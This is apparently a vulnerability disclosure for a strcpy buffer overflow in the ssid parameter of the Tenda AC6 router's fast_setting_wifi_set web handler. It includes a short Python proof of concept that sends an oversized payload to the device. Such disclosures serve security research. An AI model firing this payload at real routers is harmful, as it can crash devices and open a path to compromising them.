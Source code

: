 # buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/form_fast_setting_wifi_set

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:


![](1.png)

get value from ssid ,and call strcpy, cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/fast_setting_wifi_set"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'ssid': payload})
``` 
